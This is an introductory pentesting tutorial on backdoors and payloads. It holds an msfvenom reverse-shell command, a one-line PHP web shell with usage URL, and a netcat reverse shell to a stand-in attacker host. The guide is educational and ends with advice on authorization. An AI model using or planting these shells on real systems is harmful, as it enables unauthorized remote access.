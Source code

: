 ## **1. What is a Backdoor?**

A **backdoor** is a method of bypassing normal authentication or security controls to gain unauthorized access to a system.

## Types of Backdoors:

* **System-level**: OS modification or custom services (e.g., modified `sshd`, cron jobs)
* **Application-level**: Embedded in vulnerable web apps (e.g., PHP web shells)
* **Hardware/firmware**: Rare, but present in supply-chain attacks


##  **2. What is a Payload?**

A **payload** is the actual **malicious code** or **functionality** delivered after exploiting a system — it's what the attacker wants to execute after gaining initial access.

## Examples of Payload Actions:

* Create reverse shells
* Download/execute malware
* Dump credentials
* Create new user accounts



## **Backdoors vs Payloads**

| Feature     | Backdoor                  | Payload                    |
| ----------- | ------------------------- | -------------------------- |
| Purpose     | Maintain access           | Execute immediate action   |
| Persistence | Usually persistent        | Often temporary            |
| Trigger     | Often manual or timed     | Triggered by exploit       |
| Examples    | Netcat listener, cron job | Reverse shell, meterpreter |



## **3. Tools for Payloads and Backdoors**

## **Metasploit Framework (MSF)**

A powerful exploitation tool for generating and delivering payloads and backdoors.

## Common Payloads:

* `windows/meterpreter/reverse_tcp`
* `linux/x86/shell_reverse_tcp`
* `php/meterpreter/reverse_tcp`

### Create a payload with `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > shell.exe
```

### **Web Backdoors (PHP, ASP, JSP)**

Example PHP web shell:

```php
<?php system($_GET["cmd"]); ?>
```

Use:

```
http://target.com/shell.php?cmd=whoami
```



## **4. Reverse Shells (A Common Payload Type)**

A reverse shell connects **from** the victim **to** the attacker’s system.

#### Example with `netcat`:

**Victim side:**

```bash
nc -e /bin/bash attacker_ip 4444
```

**Attacker listener:**

```bash
nc -lvnp 4444
```



## **5. Payload Delivery Methods**

* **Social engineering (phishing, fake software)**
* **Exploit kits (via vulnerabilities)**
* **Malicious USBs / hardware implants**
* **Drive-by downloads (malicious sites)**



## **6. Persistence Techniques (Backdoor Mechanisms)**

* Registry autorun entries (Windows)
* Startup folder placement
* Cron jobs (`crontab -e`)
* Systemd services
* Scheduled tasks (`schtasks`)



## **7. Ethical Usage in Pentesting**

When using payloads and backdoors in penetration testing:

* Always have **written authorization**
* Use payloads responsibly to avoid system damage
* Clean up afterward (remove shells/backdoors)
* Report exactly how access was achieved and persisted
